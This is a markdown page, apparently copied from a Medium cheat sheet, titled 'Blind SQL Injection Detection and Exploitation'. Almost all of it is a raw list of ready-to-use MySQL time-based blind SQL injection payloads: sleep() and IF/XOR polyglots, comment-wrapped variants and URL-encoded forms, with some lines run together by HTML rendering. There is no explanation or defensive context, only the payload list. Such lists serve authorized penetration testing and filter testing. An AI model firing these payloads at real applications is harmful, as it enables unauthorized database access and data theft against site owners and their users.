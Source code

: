 ```yaml
---
description: >-
  source:
  https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1
---
```


# 🔎 Blind SQL Injection Detection and Exploitation (Cheat Sheet)

### **Payload list:** <a href="#de59" id="de59"></a>

### MySQL Blind **(Time Based):** <a href="#id-3e2d" id="id-3e2d"></a>

<pre><code>0'XOR(if(now()=sysdate(),sleep(5),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(5*1),0))XOR'Z
if(now()=sysdate(),sleep(5),0)
'XOR(if(now()=sysdate(),sleep(5),0))XOR'
'XOR(if(now()=sysdate(),sleep(5*1),0))OR'
0'|(IF((now())LIKE(sysdate()),SLEEP(1),0))|'Z
0'or(now()=sysdate()&#x26;&#x26;SLEEP(1))or'Zif(now()=sysdate(),sleep(5),0)/"XOR(if(now()=sysdate(),sleep(5),0))OR"/if(now()=sysdate(),sleep(5),0)/*'XOR(if(now()=sysdate(),sleep(5),0))OR'"XOR(if(now()=sysdate(),sleep(5),0))OR"*/if(now()=sysdate(),sleep(5),0)/'XOR(if(now()=sysdate(),sleep(5),0))OR'"XOR(if(now()=sysdate(),sleep(5),0) and 5=5)"/if(1=1,sleep(5),0)/*'XOR(if(1=1,sleep(5),0))OR'"XOR(if(1=1,sleep(5),0))OR"*/if(1337=1337,exp(~(1)),0)/*'XOR(if(1337=1337,exp(~(1)),0))OR'"XOR(if(1337=1337,sleep(5),0))OR"*/SLEEP(5)/*' or SLEEP(5) or '" or SLEEP(5) or "*/%2c(select%5*%5from%5(select(sleep(5)))a)
(select(0)from(select(sleep(5)))v)
(SELECT SLEEP(5))
'%2b(select*from(select(sleep(5)))a)%2b'
(select*from(select(sleep(5)))a)
1'%2b(select*from(select(sleep(5)))a)%2b'
,(select * from (select(sleep(5)))a)
desc%2c(select*from(select(sleep(5)))a)
-1+or+1%3d((SELECT+1+FROM+(SELECT+SLEEP(5))A))
<strong>-1+or+1=((SELECT+1+FROM+(SELECT+SLEEP(5))A))(SELECT * FROM (SELECT(SLEEP(5)))YYYY)(SELECT * FROM (SELECT(SLEEP(5)))YYYY)#(SELECT * FROM (SELECT(SLEEP(5)))YYYY)--'+(select*from(select(sleep(5)))a)+'(select(0)from(select(sleep(5)))v)%2f'+(select(0)from(select(sleep(5)))v)+'"(select(0)from(select(sleep(5)))v)%2f*'+(select(0)from(select(sleep(5)))v)+'"+(select(0)from(select(sleep(5)))v)+"*%2f(select(0)from(select(sleep(5)))v)/*'+(select(0)from(select(sleep(5)))v)+'"+(select(0)from(select(sleep(5)))v)+"*/',''),/*test*/%26%26%09sLeEp(5)%09--+AND BLIND:1 and sleep 5--
</strong>1 and sleep 5
1 and sleep(5)--
1 and sleep(5)
' and sleep 5--
' and sleep 5
' and sleep 5 and '1'='1
' and sleep(5) and '1'='1
' and sleep(5)--
' and sleep(5)
' AnD SLEEP(5) ANd '1
and sleep 5--
and sleep 5
and sleep(5)--
and sleep(5)
and SELECT SLEEP(5); #
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
